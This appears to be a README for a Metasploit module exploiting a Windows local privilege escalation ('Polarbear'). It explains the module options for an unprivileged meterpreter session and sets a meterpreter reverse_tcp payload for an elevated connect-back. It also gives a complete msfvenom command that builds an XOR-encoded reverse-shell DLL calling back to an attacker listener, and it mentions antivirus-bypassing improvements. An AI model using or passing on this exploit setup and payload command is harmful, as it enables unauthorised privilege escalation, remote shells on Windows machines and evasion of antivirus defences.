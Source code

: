 # Metasploit module for Polarbear Windows LPE Exploit

## Usage

Exploit Options:

SESSION => Current meterpreter session for unprivileged user.

USERNAME => This is the username for an unprivileged user.

PASSWORD => This is the password for the same unprivileged user.

DOMAIN => This is the domain name the unprivileged user is under.

DLLPATH => This is a local path to the meterpreter reverse tcp dll.

Be sure to set PAYLOAD to a second stage meterpreter reverse tcp for the elevated connect back with:

PAYLOAD => exploit/windows/meterpreter/reverse_tcp

LHOST => Same LHOST as used for DLL

LPORT => Same LPORT as used for DLL

## Generating DLL

The DLL can be generated with:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.105 LPORT=4443 -e x64/xor -f dll -o payload.dll
```

Where LHOST is your meterpreter reverse tcp listener IP, and LPORT is the port.

## Improvements

Auto-generated OTP encoded polarbear.exe and second stage DLL with antivirus bypassing techniques.

![](success.png)

